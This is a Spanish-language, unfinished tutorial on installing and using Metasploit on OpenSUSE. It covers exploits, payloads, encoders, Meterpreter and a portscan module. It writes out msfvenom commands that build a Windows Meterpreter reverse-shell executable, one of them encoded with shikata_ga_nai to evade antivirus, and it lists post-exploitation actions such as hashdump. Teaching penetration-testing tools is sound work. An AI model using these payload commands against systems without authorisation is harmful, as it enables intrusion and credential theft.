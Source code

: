 
`EN CONSTRUCCIÓN !!!`

# Metasploit

Vamos a usar MV con SO OpenSUSE.

# 1. Instalación

## 1.1 La base de datos

* Instalar `postgresql` y `postgresql-server`
* `systemctml start postgresql`

> Para tener la base de datos necesitamos dos herramientas:
> * postgresql como gestor de bases de datos
> * “msfdb” que es la base de datos propia de metasploit
>
> Hay que ejecutar los servicios de ambas bases de datos antes de poder ejecutar Metasploit Framework. Así se podrán guardar los datos que generamos para ejecutar la auditoria en otro momento.

## 1.2 La aplicación

* Descargar paquete rpm de https://rpm.metasploit.com.
* `sudo rpm -i metasploit-framework-XXX.x86_64.rpm`
* `msfdb init`, crear el schema de la BBDD para MS.
    * `msfdb`, para ver todas las opciones disponibles.
* `msfconsole`, iniciar MS.
* `db_status`, para comprobar que BBDD está OK.

```
david@camaleon> msfconsole

 ** Welcome to Metasploit Framework Initial Setup **
    Please answer a few questions to get started.

Would you like to use and setup a new database (recommended)?
Please answer yes or no.
Would you like to use and setup a new database (recommended)? yes
Creating database at /home/david/.msf4/db
Starting database at /home/david/.msf4/db...success
Creating database users
Creating initial database schema

 ** Metasploit Framework Initial Setup Complete **

       =[ metasploit v4.17.34-dev-                        ]
+ -- --=[ 1845 exploits - 1045 auxiliary - 320 post       ]
+ -- --=[ 541 payloads - 44 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > db_status
[*] postgresql connected to msf
msf > exit
```

> Resumen: Para iniciar MSF
> * `sudo systemctl start postgresql`
> * `msfdb init`
> * `msfconsole`

---

# 2. TEORÍA: Definiciones

* `msf> help`, ver los comandos de Metasploit

## 2.1 Los exploits

Un exploit es un fallo el cual se puede aprovechar para diferentes fines: como el control del sistema, robo de información, etc.

* `show exploits`, nos muestra todos los exploits.

> La base de datos de exploits se actualiza contínuamente con las nuevas vulnerabilidades que se van detectando.

## 2.2 Payloads

Los payloads son "bloques de código" que se cargan y ejecutan gracias a las vulnerabilidades. Con ellas podemos conseguir:
* la obtención de una Shell y tomar el control del sistema afectado o
* provocar un desbordamiento o saturación del sistema.

* `show payloads`, nos muestra todos los payloads.

Hay diferentes tipos de Payloads, según el sistema operativo o los servicios instalados:
* **Meterpreter** o Meta-Interpreter
    * Payload avanzado y multifacético que opera mediante inyección dll.
    * Reside completamente en la memoria del host remoto y no deja rastros en el disco duro, por lo que es muy difícil
    de detectar con técnicas forenses convencionales.
* **PassiveX**
    * Payload que ayudar a eludir los firewalls de salida restrictivos. Lo hace mediante el uso de un control ActiveX para crear una instancia oculta de Internet Explorer. Usando el nuevo control ActiveX, se comunica con el atacante a través de
    solicitudes y respuestas HTTP.
* **IPv6**
    * Diseñados para funcionar en redes que use el protocolo IPv6.

## 2.3 Encoders

Encargado de cifrar exploits, payload, etc.

* `search encoders`

---

# 3. TEORÍA: Generando Payloads

Con la herramienta `msfvenom` podemos generar nuestros propios Payloads para un objetivo específico. Además también podemos
* Exportar la salida a varios formatos ejecutables
* Cifrarlo con cualquiera de los "encoder".
* Y el fichero generado es portable e  independiente de Metasploit.


## 3.1 Ejemplo: shell inversa

```
msf > msfvenom
[*] exec: msfvenom

Usage: /opt/metasploit-framework/bin/../embedded/framework/msfvenom [options] <var=val>
Example: /opt/metasploit-framework/bin/../embedded/framework/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe
...

msf > msfvenom -p windows/meterpreter/reverse_tcp
               LHOST=127.0.0.1
               LPORT=4444
               -f exe
               > ejemplo1.exe
```

| Parámetro | Descripción | Ejemplo |
| --------- | ----------- | ------- |
| -p        | Payload     | Para sistemas Windows |
| LHOST     | Nuestra IP local | 127.0.0.1 |
| LPORT     | Nuestro puerto local | 4444 |
| -f        | Formato de salida | Ejecutable shell.exe 32bits |
| -e        | Encoder | N/A |
| >, -o     | Fichero de salida | ejemplo1.exe |

Cuando se ejecute este Payload tendremos una shell de Meterpreter reversa. Es decir, él se conectaría a nosotros y esta iría por el protocolo TCP.

## 3.2 Ejemplo: esconderse del antivirus

```
msfvenom -p windows/meterpreter/reverse_tcp
         LHOST=127.0.0.1
         LPORT=4444
         -f exe
         -e x86/shikata_ga_nai
         > ejemplo2.exe
```

* Este ejemplo es similar al anterior pero nuestro Payload esta cifrado por el encoder "shikata_ga_nai" para protegerse, por ejemplo, de los antivirus.

---

# 4. TEORÍA: Meterpreter

> Se necesita tener un equipo infectado para poder ver esta Shell

Meterpreter es un Payload propio de Metasploit Framework que se ejecuta después del proceso de explotación de una vulnerabilidad en un sistema operativo.
* Es el diminutivo para meta-interprete.
* Se ejecuta en memoria es decir a bajo nivel evitando así tener problemas con algún tipo de protección como los Antivirus.
* Es una shell con gran cantidad de opciones.
* Una vez obtenida esta conexión mediante Meterpreter podremos ejecutar diferentes acciones en los sistemas comprometidos algunas acciones son:

| Acción  | Descripción |
| ------- | ----------- |
| execute | posibilidad de ejecutar archivos |
| sysinfo | obtenemos información del sistema |
| screenshot | captura de escritorio remoto |
| hashdump | obtención de contraseñas en formato Hash |

---

# 10. Recopilación de información

Podemos usar los escáneres que nos ofrece MSF o nmap.
* `msfconsole`
* `search portscan`, nos muestra los scanners que vienen con MSF.
* Ejemplo:
    * `use auxiliary/scanner/portscan/tcp`
    * `show options`
    * `set RHOSTS 192.168.1.1/24` (ó 192.168.1.2-255)
    * `run`

* [Metasploitable3](https://github.com/rapid7/metasploitable3)
